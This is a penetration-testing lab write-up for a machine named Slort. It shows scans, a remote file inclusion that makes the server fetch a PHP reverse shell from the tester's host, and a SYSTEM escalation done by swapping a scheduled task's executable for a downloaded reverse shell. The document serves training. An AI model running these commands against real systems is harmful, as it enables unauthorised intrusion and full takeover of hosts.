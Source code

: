 # Slort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.53 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:12 +08
Nmap scan report for 192.168.233.53
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Fail

Does not allow anonymous logins.

### RFI --> User Shell

Port 4443 and 8080 host the same service:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on the site and found a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.233.53:8080 -t 100                  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.233.53:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/30 21:18:11 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 345] [--> http://192.168.233.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.233.53:8080/site/]
<TRUNCATED>
```

The `/site` directory contained a basic corporate page, but the most interesting part was the URL:

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

This looks like it's vulnerable to a file inclusion exploit. I tested this and it is RFI for this case:

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We can grab a PHP Reverse shell for Windows from this page:

{% embed url="https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php" %}

Afterwards, we just need to execute it:

```
$ curl http://192.168.233.53:8080/site/index.php?page=http://192.168.45.161/rev.php
```

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Cronjob --> SYSTEM Shell

The `C:\` directory contained a `Backup` folder that looked interesting:

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
```

`info.txt` basically told us what to do:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

We can modify the `TFTP.EXE` file and replace it with our own reverse shell to get a SYSTEM shell after the scheduled task executes.

```
C:\Backup>move TFTP.EXE old.exe
move TFTP.EXE old.exe
        1 file(s) moved.

C:\Backup>powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE 
powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE
```

After a few minutes, the task would execute and give us a administrator reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Rooted!
